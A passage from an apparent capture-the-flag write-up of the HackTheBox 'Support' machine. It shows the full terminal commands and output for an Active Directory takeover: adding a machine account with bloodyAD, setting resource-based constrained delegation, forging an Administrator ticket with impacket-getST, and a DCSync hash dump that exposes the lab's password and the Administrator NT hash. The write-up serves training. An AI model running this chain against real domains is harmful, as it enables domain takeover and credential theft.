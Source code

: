 But it seems like we dont have the correct access rights, some how. Instead we go for **resource based constrained delegation** to allow us to impersonate any user of the domain. 
Obviously we will impersonate the Administrator, grab his Silver Ticket, and dump (DCSync) all domain hashes. 

```bash
## Create machine account
➜  bloodyAD git:(main) ./bloodyAD.py --host 10.129.146.169 -d support.htb -u support -p Ironside47pleasure40Watchful addComputer p3test passwd123
Opening domain SUPPORT...
Successfully added machine account p3test$ with password passwd123.

## Set resource based constrained delegation
➜  bloodyAD git:(main) ./bloodyAD.py --host 10.129.146.169 -d support.htb -u support -p Ironside47pleasure40Watchful setRbcd p3test$ dc$                 
[*] p3test$ SID is: S-1-5-21-1677581083-3380853377-188903654-5601
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set
[+] Delegation rights modified successfully!
[+] p3test$ can now impersonate users on dc$ via S4U2Proxy

## Get silver ticket
➜  support impacket-getST -spn ldap/dc.support.htb -impersonate Administrator -dc-ip 10.129.146.169 support.htb/p3test$:passwd123
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

## Export admin ticket and verify
➜  support export KRB5CCNAME=Administrator.ccache
➜  support klist
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@support.htb

Valid starting       Expires              Service principal
08/02/2022 09:35:02  08/02/2022 19:35:02  ldap/dc.support.htb@SUPPORT.HTB
	renew until 08/03/2022 09:35:10

## Dump hashes (DCSync)
➜  support impacket-secretsdump dc.support.htb -k -no-pass -just-dc                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
[... snip ...]
```
